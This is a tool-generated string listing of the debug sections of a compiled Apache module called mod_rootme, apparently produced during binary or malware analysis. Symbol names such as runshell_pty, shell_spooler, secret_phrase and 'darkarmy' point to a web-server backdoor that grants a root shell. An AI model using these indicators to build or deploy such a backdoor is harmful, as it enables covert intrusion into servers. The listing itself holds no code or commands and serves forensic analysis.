261 0x0000752e 0x000001bf   8   9 (.debug_line) ascii socket.h
262 0x0000753a 0x000001cb   6   7 (.debug_line) ascii wait.h
263 0x0000755a 0x000001eb   7   8 (.debug_line) ascii xt\b5K\bL
264 0x00007589 0x0000021a   4   5 (.debug_line) ascii \bv:\b
265 0x0000761f 0x000002b0   6   7 (.debug_line) ascii +[W1U[
266 0x00007650 0x000002e1   6   7 (.debug_line) ascii \bA\bg\bh
267 0x00007705 0x00000396   4   5 (.debug_line) ascii \v\b I
268 0x00007754 0x000003e5  34  35 (.debug_line) ascii /usr/include/x86_64-linux-gnu/bits
269 0x00007777 0x00000408  33  34 (.debug_line) ascii /usr/include/x86_64-linux-gnu/sys
270 0x00007799 0x0000042a  39  40 (.debug_line) ascii /usr/lib/gcc/x86_64-linux-gnu/6/include
271 0x000077c1 0x00000452  20  21 (.debug_line) ascii /usr/include/netinet
272 0x000077d6 0x00000467  12  13 (.debug_line) ascii /usr/include
273 0x000077e3 0x00000474  20  21 (.debug_line) ascii /usr/include/apr-1.0
274 0x000077f8 0x00000489  20  21 (.debug_line) ascii /usr/include/apache2
275 0x0000780e 0x0000049f  12  13 (.debug_line) ascii mod_rootme.c
276 0x0000781e 0x000004af   7   8 (.debug_line) ascii types.h
277 0x00007829 0x000004ba   7   8 (.debug_line) ascii types.h
278 0x00007834 0x000004c5   8   9 (.debug_line) ascii stddef.h
279 0x00007840 0x000004d1   8   9 (.debug_line) ascii socket.h
280 0x0000784c 0x000004dd  10  11 (.debug_line) ascii sockaddr.h
281 0x0000785a 0x000004eb   4   5 (.debug_line) ascii in.h
282 0x00007862 0x000004f3   8   9 (.debug_line) ascii stdint.h
283 0x0000786e 0x000004ff   8   9 (.debug_line) ascii signal.h
284 0x0000787a 0x0000050b   5   6 (.debug_line) ascii apr.h
285 0x00007883 0x00000514   7   8 (.debug_line) ascii errno.h
286 0x0000788e 0x0000051f  11  12 (.debug_line) ascii apr_errno.h
287 0x0000789d 0x0000052e  11  12 (.debug_line) ascii apr_pools.h
288 0x000078ac 0x0000053d  18  19 (.debug_line) ascii apr_thread_mutex.h
289 0x000078c2 0x00000553  12  13 (.debug_line) ascii apr_tables.h
290 0x000078d2 0x00000563  11  12 (.debug_line) ascii apr_hooks.h
291 0x000078e1 0x00000572  10  11 (.debug_line) ascii apr_time.h
292 0x000078ef 0x00000580  10  11 (.debug_line) ascii apr_user.h
293 0x000078fd 0x0000058e  15  16 (.debug_line) ascii apr_file_info.h
294 0x00007910 0x000005a1   7   8 (.debug_line) ascii libio.h
295 0x0000791b 0x000005ac   7   8 (.debug_line) ascii stdio.h
296 0x00007926 0x000005b7  13  14 (.debug_line) ascii sys_errlist.h
297 0x00007937 0x000005c8  13  14 (.debug_line) ascii apr_file_io.h
298 0x00007948 0x000005d9  16  17 (.debug_line) ascii apr_network_io.h
299 0x0000795c 0x000005ed  12  13 (.debug_line) ascii mod_rootme.h
300 0x0000796c 0x000005fd  13  14 (.debug_line) ascii apr_buckets.h
301 0x0000797d 0x0000060e   6   7 (.debug_line) ascii time.h
302 0x00007987 0x00000618  17  18 (.debug_line) ascii apr_thread_proc.h
303 0x0000799c 0x0000062d   7   8 (.debug_line) ascii httpd.h
304 0x000079a7 0x00000638   9  10 (.debug_line) ascii apr_uri.h
305 0x000079b4 0x00000645  13  14 (.debug_line) ascii util_filter.h
306 0x000079c5 0x00000656   8   9 (.debug_line) ascii unistd.h
307 0x000079d1 0x00000662   8   9 (.debug_line) ascii getopt.h
308 0x000079dd 0x0000066e  14  15 (.debug_line) ascii util_cfgtree.h
309 0x000079ef 0x00000680  13  14 (.debug_line) ascii http_config.h
310 0x00007a00 0x00000691   6   7 (.debug_line) ascii time.h
311 0x00007a0a 0x0000069b  15  16 (.debug_line) ascii http_protocol.h
312 0x00007a1d 0x000006ae  12  13 (.debug_line) ascii mrm_server.h
313 0x00007a2d 0x000006be   8   9 (.debug_line) ascii stdlib.h
314 0x00007a39 0x000006ca  10  11 (.debug_line) ascii <built-in>
315 0x00007a8a 0x00000000   7   8 (.debug_str) ascii __off_t
316 0x00007a92 0x00000008  12  13 (.debug_str) ascii runshell_raw
317 0x00007a9f 0x00000015  12  13 (.debug_str) ascii _IO_read_ptr
318 0x00007aac 0x00000022   6   7 (.debug_str) ascii malloc
319 0x00007ab3 0x00000029  12  13 (.debug_str) ascii __read_alias
320 0x00007ac0 0x00000036  13  14 (.debug_str) ascii __suseconds_t
321 0x00007ace 0x00000044   9  10 (.debug_str) ascii _shortbuf
322 0x00007ad8 0x0000004e   5   6 (.debug_str) ascii close
323 0x00007ade 0x00000054  15  16 (.debug_str) ascii _IO_2_1_stderr_
324 0x00007aee 0x00000064  12  13 (.debug_str) ascii _IO_buf_base
325 0x00007afb 0x00000071  16  17 (.debug_str) ascii /root/mod-rootme
326 0x00007b0c 0x00000082  22  23 (.debug_str) ascii long long unsigned int
327 0x00007b23 0x00000099   4   5 (.debug_str) ascii __d0
328 0x00007b28 0x0000009e   4   5 (.debug_str) ascii __d1
329 0x00007b2d 0x000000a3   5   6 (.debug_str) ascii __src
330 0x00007b33 0x000000a9   6   7 (.debug_str) ascii stdout
331 0x00007b3a 0x000000b0   4   5 (.debug_str) ascii free
332 0x00007b3f 0x000000b5   4   5 (.debug_str) ascii kill
333 0x00007b44 0x000000ba  13  14 (.debug_str) ascii long long int
334 0x00007b52 0x000000c8   4   5 (.debug_str) ascii dup2
335 0x00007b57 0x000000cd  11  12 (.debug_str) ascii __fdelt_chk
336 0x00007b63 0x000000d9  14  15 (.debug_str) ascii sockaddr_inarp
337 0x00007b72 0x000000e8  14  15 (.debug_str) ascii process_client
338 0x00007b81 0x000000f7   7   8 (.debug_str) ascii _fileno
339 0x00007b89 0x000000ff  12  13 (.debug_str) ascii _IO_read_end
340 0x00007b96 0x0000010c   5   6 (.debug_str) ascii chdir
341 0x00007b9c 0x00000112   9  10 (.debug_str) ascii __ssize_t
342 0x00007ba6 0x0000011c  11  12 (.debug_str) ascii _IO_buf_end
343 0x00007bb2 0x00000128  11  12 (.debug_str) ascii _cur_column
344 0x00007bbe 0x00000134  17  18 (.debug_str) ascii __builtin_strncpy
345 0x00007bd0 0x00000146 114 115 (.debug_str) ascii GNU C11 6.3.0 20170406 -mtune=generic -march=x86-64 -g -O2 -fstack-protector-strong -fPIC -fstack-protector-strong
346 0x00007c43 0x000001b9   4   5 (.debug_str) ascii recv
347 0x00007c48 0x000001be  11  12 (.debug_str) ascii sockaddr_dl
348 0x00007c54 0x000001ca  12  13 (.debug_str) ascii _sys_errlist
349 0x00007c61 0x000001d7  13  14 (.debug_str) ascii _IO_write_ptr
350 0x00007c6f 0x000001e5  11  12 (.debug_str) ascii _old_offset
351 0x00007c7b 0x000001f1   6   7 (.debug_str) ascii pipe_A
352 0x00007c82 0x000001f8  18  19 (.debug_str) ascii short unsigned int
353 0x00007c95 0x0000020b  12  13 (.debug_str) ascii sockaddr_x25
354 0x00007ca2 0x00000218  13  14 (.debug_str) ascii sockaddr_ax25
355 0x00007cb0 0x00000226  12  13 (.debug_str) ascii sockaddr_ipx
356 0x00007cbd 0x00000233   6   7 (.debug_str) ascii __pad1
357 0x00007cc4 0x0000023a   4   5 (.debug_str) ascii rfds
358 0x00007cc9 0x0000023f   7   8 (.debug_str) ascii wr_pipe
359 0x00007cd1 0x00000247   6   7 (.debug_str) ascii __pad5
360 0x00007cd8 0x0000024e  12  13 (.debug_str) ascii mrm_server.c
361 0x00007ce5 0x0000025b  10  11 (.debug_str) ascii _IO_marker
362 0x00007cf0 0x00000266   5   6 (.debug_str) ascii stdin
363 0x00007cf6 0x0000026c   6   7 (.debug_str) ascii fd_set
364 0x00007cfd 0x00000273   5   6 (.debug_str) ascii slave
365 0x00007d03 0x00000279   6   7 (.debug_str) ascii optopt
366 0x00007d0a 0x00000280  13  14 (.debug_str) ascii _IO_FILE_plus
367 0x00007d18 0x0000028e   8   9 (.debug_str) ascii get_type
368 0x00007d21 0x00000297   6   7 (.debug_str) ascii pipe_B
369 0x00007d28 0x0000029e   7   8 (.debug_str) ascii waitpid
370 0x00007d30 0x000002a6   5   6 (.debug_str) ascii _sbuf
371 0x00007d36 0x000002ac   4   5 (.debug_str) ascii fork
372 0x00007d3b 0x000002b1  13  14 (.debug_str) ascii _IO_save_base
373 0x00007d49 0x000002bf  14  15 (.debug_str) ascii tz_minuteswest
374 0x00007d58 0x000002ce   5   6 (.debug_str) ascii _lock
375 0x00007d5e 0x000002d4   7   8 (.debug_str) ascii _flags2
376 0x00007d66 0x000002dc   7   8 (.debug_str) ascii timeval
377 0x00007d6e 0x000002e4   8   9 (.debug_str) ascii fds_bits
378 0x00007d77 0x000002ed   4   5 (.debug_str) ascii __fd
379 0x00007d7c 0x000002f2  11  12 (.debug_str) ascii sockaddr_un
380 0x00007d88 0x000002fe  14  15 (.debug_str) ascii _IO_2_1_stdin_
381 0x00007d97 0x0000030d   5   6 (.debug_str) ascii write
382 0x00007d9d 0x00000313  13  14 (.debug_str) ascii shell_spooler
383 0x00007dab 0x00000321   6   7 (.debug_str) ascii optarg
384 0x00007db2 0x00000328   8   9 (.debug_str) ascii sizetype
385 0x00007dbb 0x00000331   6   7 (.debug_str) ascii optind
386 0x00007dc2 0x00000338   4   5 (.debug_str) ascii send
387 0x00007dc7 0x0000033d  13  14 (.debug_str) ascii _IO_write_end
388 0x00007dd5 0x0000034b   6   7 (.debug_str) ascii putenv
389 0x00007ddc 0x00000352  10  11 (.debug_str) ascii _IO_lock_t
390 0x00007de7 0x0000035d   8   9 (.debug_str) ascii _IO_FILE
391 0x00007df0 0x00000366   9  10 (.debug_str) ascii ws_xpixel
392 0x00007dfa 0x00000370   9  10 (.debug_str) ascii __environ
393 0x00007e04 0x0000037a   6   7 (.debug_str) ascii select
394 0x00007e0b 0x00000381   5   6 (.debug_str) ascii _mode
395 0x00007e11 0x00000387  11  12 (.debug_str) ascii sockaddr_ns
396 0x00007e1d 0x00000393   4   5 (.debug_str) ascii _pos
397 0x00007e22 0x00000398   9  10 (.debug_str) ascii sa_family
398 0x00007e2c 0x000003a2   8   9 (.debug_str) ascii _markers
399 0x00007e35 0x000003ab   7   8 (.debug_str) ascii __flags
400 0x00007e3d 0x000003b3  13  14 (.debug_str) ascii unsigned char
401 0x00007e4b 0x000003c1  12  13 (.debug_str) ascii sockaddr_iso
402 0x00007e58 0x000003ce   9  10 (.debug_str) ascii __fd_mask
403 0x00007e62 0x000003d8   9  10 (.debug_str) ascii short int
404 0x00007e6c 0x000003e2   6   7 (.debug_str) ascii memset
405 0x00007e73 0x000003e9   6   7 (.debug_str) ascii _chain
406 0x00007e7a 0x000003f0  12  13 (.debug_str) ascii runshell_pty
407 0x00007e87 0x000003fd   5   6 (.debug_str) ascii __len
408 0x00007e8d 0x00000403   6   7 (.debug_str) ascii tv_sec
409 0x00007e94 0x0000040a   9  10 (.debug_str) ascii _sys_nerr
410 0x00007e9e 0x00000414  14  15 (.debug_str) ascii _vtable_offset
411 0x00007ead 0x00000423   7   8 (.debug_str) ascii pidlist
412 0x00007eb5 0x0000042b  15  16 (.debug_str) ascii _IO_2_1_stdout_
413 0x00007ec5 0x0000043b   9  10 (.debug_str) ascii ws_ypixel
414 0x00007ecf 0x00000445   4   5 (.debug_str) ascii exit
415 0x00007ed4 0x0000044a   7   8 (.debug_str) ascii winsize
416 0x00007edc 0x00000452   8   9 (.debug_str) ascii shutdown
417 0x00007ee5 0x0000045b  16  17 (.debug_str) ascii __stack_chk_fail
418 0x00007ef6 0x0000046c   7   8 (.debug_str) ascii tv_usec
419 0x00007efe 0x00000474   4   5 (.debug_str) ascii __ch
420 0x00007f03 0x00000479   5   6 (.debug_str) ascii __buf
421 0x00007f09 0x0000047f   8   9 (.debug_str) ascii sockaddr
422 0x00007f12 0x00000488   6   7 (.debug_str) ascii buffer
423 0x00007f19 0x0000048f   6   7 (.debug_str) ascii opterr
424 0x00007f20 0x00000496   5   6 (.debug_str) ascii ioctl
425 0x00007f26 0x0000049c   5   6 (.debug_str) ascii _next
426 0x00007f2c 0x000004a2   9  10 (.debug_str) ascii __off64_t
427 0x00007f36 0x000004ac  13  14 (.debug_str) ascii _IO_read_base
428 0x00007f44 0x000004ba  12  13 (.debug_str) ascii _IO_save_end
429 0x00007f51 0x000004c7  12  13 (.debug_str) ascii _sys_siglist
430 0x00007f5e 0x000004d4   6   7 (.debug_str) ascii ws_row
431 0x00007f65 0x000004db  12  13 (.debug_str) ascii sockaddr_eon
432 0x00007f72 0x000004e8   6   7 (.debug_str) ascii __pad2
433 0x00007f79 0x000004ef   6   7 (.debug_str) ascii __pad3
434 0x00007f80 0x000004f6   6   7 (.debug_str) ascii __pad4
435 0x00007f87 0x000004fd  11  12 (.debug_str) ascii sockaddr_at
436 0x00007f93 0x00000509   8   9 (.debug_str) ascii __time_t
437 0x00007f9c 0x00000512  11  12 (.debug_str) ascii sa_family_t
438 0x00007fa8 0x0000051e   8   9 (.debug_str) ascii _unused2
439 0x00007fb1 0x00000527   6   7 (.debug_str) ascii stderr
440 0x00007fb8 0x0000052e   6   7 (.debug_str) ascii __dest
441 0x00007fbf 0x00000535   8   9 (.debug_str) ascii __nbytes
442 0x00007fc8 0x0000053e  12  13 (.debug_str) ascii sockaddr_in6
443 0x00007fd5 0x0000054b  11  12 (.debug_str) ascii sockaddr_in
444 0x00007fe1 0x00000557   9  10 (.debug_str) ascii client_fd
445 0x00007feb 0x00000561  10  11 (.debug_str) ascii tz_dsttime
446 0x00007ff6 0x0000056c   7   8 (.debug_str) ascii rd_pipe
447 0x00007ffe 0x00000574  15  16 (.debug_str) ascii _IO_backup_base
448 0x0000800e 0x00000584   7   8 (.debug_str) ascii ttyname
449 0x00008016 0x0000058c   6   7 (.debug_str) ascii execlp
450 0x0000801d 0x00000593   7   8 (.debug_str) ascii openpty
451 0x00008025 0x0000059b   6   7 (.debug_str) ascii setsid
452 0x0000802c 0x000005a2   7   8 (.debug_str) ascii sa_data
453 0x00008034 0x000005aa   6   7 (.debug_str) ascii ws_col
454 0x0000803b 0x000005b1  14  15 (.debug_str) ascii _IO_write_base
455 0x0000804a 0x000005c0   7   8 (.debug_str) ascii getppid
456 0x00008052 0x000005c8  12  13 (.debug_str) ascii __recv_alias
457 0x0000805f 0x000005d5  12  13 (.debug_str) ascii mod_rootme.c
458 0x0000806c 0x000005e2   7   8 (.debug_str) ascii APR_REG
459 0x00008074 0x000005ea  19  20 (.debug_str) ascii proto_input_filters
460 0x00008088 0x000005fe   8   9 (.debug_str) ascii __s1_len
461 0x00008091 0x00000607  12  13 (.debug_str) ascii addr_str_len
462 0x0000809e 0x00000614   9  10 (.debug_str) ascii proto_num
463 0x000080a8 0x0000061e  20  21 (.debug_str) ascii AP_FTYPE_CONTENT_SET
464 0x000080bd 0x00000633  16  17 (.debug_str) ascii merge_dir_config
465 0x000080ce 0x00000644  10  11 (.debug_str) ascii body_table
466 0x000080d9 0x0000064f  19  20 (.debug_str) ascii dynamic_load_handle
467 0x000080ed 0x00000663  12  13 (.debug_str) ascii dns_resolved
468 0x000080fa 0x00000670  15  16 (.debug_str) ascii apr_fileperms_t
469 0x0000810a 0x00000680  18  19 (.debug_str) ascii apr_bucket_alloc_t
470 0x0000811d 0x00000693   8   9 (.debug_str) ascii port_str
471 0x00008126 0x0000069c   9  10 (.debug_str) ascii providers
472 0x00008130 0x000006a6   5   6 (.debug_str) ascii addrs
473 0x00008136 0x000006ac  15  16 (.debug_str) ascii htaccess_result
474 0x00008146 0x000006bc  11  12 (.debug_str) ascii ap_conftree
475 0x00008152 0x000006c8  14  15 (.debug_str) ascii useragent_addr
476 0x00008161 0x000006d7  14  15 (.debug_str) ascii double_reverse
477 0x00008170 0x000006e6  17  18 (.debug_str) ascii content_languages
478 0x00008182 0x000006f8  15  16 (.debug_str) ascii AP_CONN_UNKNOWN
479 0x00008192 0x00000708  20  21 (.debug_str) ascii ap_prelinked_modules
480 0x000081a7 0x0000071d  10  11 (.debug_str) ascii apr_bucket
481 0x000081b2 0x00000728  19  20 (.debug_str) ascii APR_BUCKET_METADATA
482 0x000081c6 0x0000073c   9  10 (.debug_str) ascii take_argv
483 0x000081d0 0x00000746  11  12 (.debug_str) ascii sent_bodyct
484 0x000081dc 0x00000752  17  18 (.debug_str) ascii apr_bucket_type_t
485 0x000081ee 0x00000764   8   9 (.debug_str) ascii sin_zero
486 0x000081f7 0x0000076d   9  10 (.debug_str) ascii in_port_t
487 0x00008201 0x00000777  18  19 (.debug_str) ascii apr_thread_mutex_t
488 0x00008214 0x0000078a  11  12 (.debug_str) ascii command_rec
489 0x00008220 0x00000796  14  15 (.debug_str) ascii APR_BLOCK_READ
490 0x0000822f 0x000007a5  15  16 (.debug_str) ascii APR_BUCKET_DATA
491 0x0000823f 0x000007b5  14  15 (.debug_str) ascii apr_day_snames
492 0x0000824e 0x000007c4  10  11 (.debug_str) ascii protection
493 0x00008259 0x000007cf   8   9 (.debug_str) ascii no_cache
494 0x00008262 0x000007d8   7   8 (.debug_str) ascii hostent
495 0x0000826a 0x000007e0  12  13 (.debug_str) ascii apr_status_t
496 0x00008277 0x000007ed   8   9 (.debug_str) ascii raw_args
497 0x00008280 0x000007f6  16  17 (.debug_str) ascii limited_xmethods
498 0x00008291 0x00000807   7   8 (.debug_str) ascii cmd_how
499 0x00008299 0x0000080f  10  11 (.debug_str) ascii invoke_mtx
500 0x000082a4 0x0000081a  24  25 (.debug_str) ascii CONN_STATE_LINGER_NORMAL
501 0x000082bd 0x00000833  12  13 (.debug_str) ascii conn_state_e
502 0x000082ca 0x00000840   9  10 (.debug_str) ascii apr_dev_t
503 0x000082d4 0x0000084a  12  13 (.debug_str) ascii conn_state_t
504 0x000082e1 0x00000857  14  15 (.debug_str) ascii request_config
505 0x000082f0 0x00000866  14  15 (.debug_str) ascii is_initialized
506 0x000082ff 0x00000875  20  21 (.debug_str) ascii create_server_config
507 0x00008314 0x0000088a  10  11 (.debug_str) ascii APR_NOFILE
508 0x0000831f 0x00000895   4   5 (.debug_str) ascii sin6
509 0x00008324 0x0000089a  11  12 (.debug_str) ascii first_child
510 0x00008330 0x000008a6   7   8 (.debug_str) ascii aborted
511 0x00008338 0x000008ae  14  15 (.debug_str) ascii subprocess_env
512 0x00008347 0x000008bd   5   6 (.debug_str) ascii cntxt
513 0x0000834d 0x000008c3  19  20 (.debug_str) ascii AP_MODE_SPECULATIVE
514 0x00008361 0x000008d7  12  13 (.debug_str) ascii rewrite_args
515 0x0000836e 0x000008e4   5   6 (.debug_str) ascii range
516 0x00008374 0x000008ea  10  11 (.debug_str) ascii ipaddr_ptr
517 0x0000837f 0x000008f5   6   7 (.debug_str) ascii s_addr
518 0x00008386 0x000008fc  21  22 (.debug_str) ascii CONN_SENSE_WANT_WRITE
519 0x0000839c 0x00000912  18  19 (.debug_str) ascii apr_array_header_t
520 0x000083af 0x00000925   8   9 (.debug_str) ascii out_func
521 0x000083b8 0x0000092e   5   6 (.debug_str) ascii atime
522 0x000083be 0x00000934  20  21 (.debug_str) ascii apr_bucket_type_pipe
523 0x000083d3 0x00000949  12  13 (.debug_str) ascii assbackwards
524 0x000083e0 0x00000956  10  11 (.debug_str) ascii apr_port_t
525 0x000083eb 0x00000961  13  14 (.debug_str) ascii no_local_copy
526 0x000083f9 0x0000096f  10  11 (.debug_str) ascii headers_in
527 0x00008404 0x0000097a  12  13 (.debug_str) ascii ap_auth_type
528 0x00008411 0x00000987   9  10 (.debug_str) ascii read_body
529 0x0000841b 0x00000991  10  11 (.debug_str) ascii sin_family
530 0x00008426 0x0000099c   8   9 (.debug_str) ascii fragment
531 0x0000842f 0x000009a5  19  20 (.debug_str) ascii ap_hook_post_config
532 0x00008443 0x000009b9  14  15 (.debug_str) ascii keep_alive_max
533 0x00008452 0x000009c8  17  18 (.debug_str) ascii AP_FTYPE_PROTOCOL
534 0x00008464 0x000009da  12  13 (.debug_str) ascii unparsed_uri
535 0x00008471 0x000009e7   5   6 (.debug_str) ascii inode
536 0x00008477 0x000009ed   7   8 (.debug_str) ascii allowed
537 0x0000847f 0x000009f5   7   8 (.debug_str) ascii __uid_t
538 0x00008487 0x000009fd  13  14 (.debug_str) ascii minor_version
539 0x00008495 0x00000a0b   4   5 (.debug_str) ascii cmds
540 0x0000849a 0x00000a10  13  14 (.debug_str) ascii module_struct
541 0x000084a8 0x00000a1e   8   9 (.debug_str) ascii sin_port
542 0x000084b1 0x00000a27  15  16 (.debug_str) ascii apr_bucket_list
543 0x000084c1 0x00000a37  14  15 (.debug_str) ascii useragent_host
544 0x000084d0 0x00000a46   6   7 (.debug_str) ascii nalloc
545 0x000084d7 0x00000a4d  11  12 (.debug_str) ascii method_list
546 0x000084e3 0x00000a59   4   5 (.debug_str) ascii modp
547 0x000084e8 0x00000a5e   5   6 (.debug_str) ascii salen
548 0x000084ee 0x00000a64   6   7 (.debug_str) ascii master
549 0x000084f5 0x00000a6b  12  13 (.debug_str) ascii apr_uint16_t
550 0x00008502 0x00000a78   5   6 (.debug_str) ascii valid
551 0x00008508 0x00000a7e  14  15 (.debug_str) ascii remote_logname
552 0x00008517 0x00000a8d  11  12 (.debug_str) ascii header_only
553 0x00008523 0x00000a99   9  10 (.debug_str) ascii apr_gid_t
554 0x0000852d 0x00000aa3  24  25 (.debug_str) ascii apr_bucket_type_immortal
555 0x00008546 0x00000abc  19  20 (.debug_str) ascii AP_FTYPE_CONNECTION
556 0x0000855a 0x00000ad0   8   9 (.debug_str) ascii line_num
557 0x00008563 0x00000ad9  16  17 (.debug_str) ascii ap_conf_vector_t
558 0x00008574 0x00000aea  12  13 (.debug_str) ascii module_index
559 0x00008581 0x00000af7   5   6 (.debug_str) ascii float
560 0x00008587 0x00000afd   5   6 (.debug_str) ascii pconf
561 0x0000858d 0x00000b03  11  12 (.debug_str) ascii the_request
562 0x00008599 0x00000b0f  18  19 (.debug_str) ascii CONN_STATE_HANDLER
563 0x000085ac 0x00000b22   6   7 (.debug_str) ascii getstr
564 0x000085b3 0x00000b29   7   8 (.debug_str) ascii process
565 0x000085bb 0x00000b31   8   9 (.debug_str) ascii conn_rec
566 0x000085c4 0x00000b3a  14  15 (.debug_str) ascii per_dir_config
567 0x000085d3 0x00000b49  13  14 (.debug_str) ascii module_levels
568 0x000085e1 0x00000b57  20  21 (.debug_str) ascii apr_bucket_type_file
569 0x000085f6 0x00000b6c   6   7 (.debug_str) ascii status
570 0x000085fd 0x00000b73   9  10 (.debug_str) ascii remaining
571 0x00008607 0x00000b7d  19  20 (.debug_str) ascii merge_server_config
572 0x0000861b 0x00000b91  12  13 (.debug_str) ascii apr_thread_t
573 0x00008628 0x00000b9e   7   8 (.debug_str) ascii netmask
574 0x00008630 0x00000ba6  15  16 (.debug_str) ascii ap_input_mode_t
575 0x00008640 0x00000bb6   7   8 (.debug_str) ascii TAKE123
576 0x00008648 0x00000bbe  28  29 (.debug_str) ascii CONN_STATE_READ_REQUEST_LINE
577 0x00008665 0x00000bdb   9  10 (.debug_str) ascii cmd_parms
578 0x0000866f 0x00000be5  20  21 (.debug_str) ascii CONN_SENSE_WANT_READ
579 0x00008684 0x00000bfa   8   9 (.debug_str) ascii APR_SOCK
580 0x0000868d 0x00000c03   7   8 (.debug_str) ascii pathlen
581 0x00008695 0x00000c0b   5   6 (.debug_str) ascii debug
582 0x0000869b 0x00000c11  20  21 (.debug_str) ascii proto_output_filters
583 0x000086b0 0x00000c26   8   9 (.debug_str) ascii cmd_data
584 0x000086b9 0x00000c2f   5   6 (.debug_str) ascii ftype
585 0x000086bf 0x00000c35  13  14 (.debug_str) ascii AP_CONN_CLOSE
586 0x000086cd 0x00000c43  18  19 (.debug_str) ascii keep_alive_timeout
587 0x000086e0 0x00000c56  13  14 (.debug_str) ascii secret_phrase
588 0x000086ee 0x00000c64   8   9 (.debug_str) ascii __s2_len
589 0x000086f7 0x00000c6d  10  11 (.debug_str) ascii __ss_align
590 0x00008702 0x00000c78  15  16 (.debug_str) ascii ap_configfile_t
591 0x00008712 0x00000c88  10  11 (.debug_str) ascii apr_file_t
592 0x0000871d 0x00000c93   9  10 (.debug_str) ascii apr_ino_t
593 0x00008727 0x00000c9d  38  39 (.debug_str) ascii CONN_STATE_CHECK_REQUEST_LINE_READABLE
594 0x0000874e 0x00000cc4  18  19 (.debug_str) ascii local_port_unknown
595 0x00008761 0x00000cd7   8   9 (.debug_str) ascii cmd_func
596 0x0000876a 0x00000ce0  11  12 (.debug_str) ascii getdate_err
597 0x00008776 0x00000cec   7   8 (.debug_str) ascii uint8_t
598 0x0000877e 0x00000cf4  19  20 (.debug_str) ascii limit_req_fieldsize
599 0x00008792 0x00000d08  10  11 (.debug_str) ascii bytes_sent
600 0x0000879d 0x00000d13   7   8 (.debug_str) ascii destroy
601 0x000087a5 0x00000d1b   8   9 (.debug_str) ascii num_func
602 0x000087ae 0x00000d24  14  15 (.debug_str) ascii command_struct
603 0x000087bd 0x00000d33  11  12 (.debug_str) ascii process_rec
604 0x000087c9 0x00000d3f   6   7 (.debug_str) ascii TAKE12
605 0x000087d0 0x00000d46   6   7 (.debug_str) ascii TAKE13
606 0x000087d7 0x00000d4d   5   6 (.debug_str) ascii param
607 0x000087dd 0x00000d53  13  14 (.debug_str) ascii override_list
608 0x000087eb 0x00000d61   8   9 (.debug_str) ascii protocol
609 0x000087f4 0x00000d6a  10  11 (.debug_str) ascii server_rec
610 0x000087ff 0x00000d75  19  20 (.debug_str) ascii ap_conn_keepalive_e
611 0x00008813 0x00000d89  21  22 (.debug_str) ascii data_in_input_filters
612 0x00008829 0x00000d9f  11  12 (.debug_str) ascii request_rec
613 0x00008835 0x00000dab  12  13 (.debug_str) ascii request_time
614 0x00008842 0x00000db8  27  28 (.debug_str) ascii ap_prelinked_module_symbols
615 0x0000885e 0x00000dd4   6   7 (.debug_str) ascii TAKE23
616 0x00008865 0x00000ddb   5   6 (.debug_str) ascii nlink
617 0x0000886b 0x00000de1  14  15 (.debug_str) ascii ap_filter_func
618 0x0000887a 0x00000df0  12  13 (.debug_str) ascii read_chunked
619 0x00008887 0x00000dfd   9  10 (.debug_str) ascii ss_family
620 0x00008891 0x00000e07  13  14 (.debug_str) ascii sin6_flowinfo
621 0x0000889f 0x00000e15   5   6 (.debug_str) ascii nelts
622 0x000088a5 0x00000e1b  11  12 (.debug_str) ascii apr_int32_t
623 0x000088b1 0x00000e27  13  14 (.debug_str) ascii method_number
624 0x000088bf 0x00000e35  13  14 (.debug_str) ascii module_config
625 0x000088cd 0x00000e43   8   9 (.debug_str) ascii setaside
626 0x000088d6 0x00000e4c  11  12 (.debug_str) ascii apr_table_t
627 0x000088e2 0x00000e58   8   9 (.debug_str) ascii darkarmy
628 0x000088eb 0x00000e61   8   9 (.debug_str) ascii RAW_ARGS
629 0x000088f4 0x00000e6a  15  16 (.debug_str) ascii allowed_methods
630 0x00008904 0x00000e7a  12  13 (.debug_str) ascii bucket_alloc
631 0x00008911 0x00000e87  20  21 (.debug_str) ascii apr_hook_global_pool
632 0x00008926 0x00000e9c  11  12 (.debug_str) ascii error_fname
633 0x00008932 0x00000ea8  16  17 (.debug_str) ascii apr_month_snames
634 0x00008943 0x00000eb9   5   6 (.debug_str) ascii take1
635 0x00008949 0x00000ebf   5   6 (.debug_str) ascii take2
636 0x0000894f 0x00000ec5   5   6 (.debug_str) ascii take3
637 0x00008955 0x00000ecb  17  18 (.debug_str) ascii AP_FTYPE_RESOURCE
638 0x00008967 0x00000edd  11  12 (.debug_str) ascii __socklen_t
639 0x00008973 0x00000ee9  10  11 (.debug_str) ascii keepalives
640 0x0000897e 0x00000ef4  17  18 (.debug_str) ascii create_dir_config
641 0x00008990 0x00000f06   8   9 (.debug_str) ascii password
642 0x00008999 0x00000f0f  11  12 (.debug_str) ascii proto_flags
643 0x000089a5 0x00000f1b  18  19 (.debug_str) ascii ap_out_filter_func
644 0x000089b8 0x00000f2e  17  18 (.debug_str) ascii AP_MODE_READBYTES
645 0x000089ca 0x00000f40  10  11 (.debug_str) ascii connection
646 0x000089d5 0x00000f4b   4   5 (.debug_str) ascii FLAG
647 0x000089da 0x00000f50   9  10 (.debug_str) ascii apr_uri_t
648 0x000089e4 0x00000f5a  10  11 (.debug_str) ascii __u6_addr8
649 0x000089ef 0x00000f65  12  13 (.debug_str) ascii AP_MODE_INIT
650 0x000089fc 0x00000f72  19  20 (.debug_str) ascii apr_bucket_type_eos
651 0x00008a10 0x00000f86  11  12 (.debug_str) ascii config_file
652 0x00008a1c 0x00000f92  10  11 (.debug_str) ascii __timezone
653 0x00008a27 0x00000f9d  14  15 (.debug_str) ascii limit_req_line
654 0x00008a36 0x00000fac   5   6 (.debug_str) ascii ptemp
655 0x00008a3c 0x00000fb2   9  10 (.debug_str) ascii sin6_addr
656 0x00008a46 0x00000fbc  10  11 (.debug_str) ascii is_virtual
657 0x00008a51 0x00000fc7   8   9 (.debug_str) ascii userdata
658 0x00008a5a 0x00000fd0  10  11 (.debug_str) ascii keep_alive
659 0x00008a65 0x00000fdb   9  10 (.debug_str) ascii host_addr
660 0x00008a6f 0x00000fe5   5   6 (.debug_str) ascii magic
661 0x00008a75 0x00000feb  18  19 (.debug_str) ascii rootme_post_config
662 0x00008a88 0x00000ffe   9  10 (.debug_str) ascii apr_off_t
663 0x00008a92 0x00001008   8   9 (.debug_str) ascii APR_PIPE
664 0x00008a9b 0x00001011  15  16 (.debug_str) ascii AP_MODE_EATCRLF
665 0x00008aab 0x00001021  29  30 (.debug_str) ascii program_invocation_short_name
666 0x00008ac9 0x0000103f  15  16 (.debug_str) ascii apr_read_type_e
667 0x00008ad9 0x0000104f  10  11 (.debug_str) ascii ipaddr_len
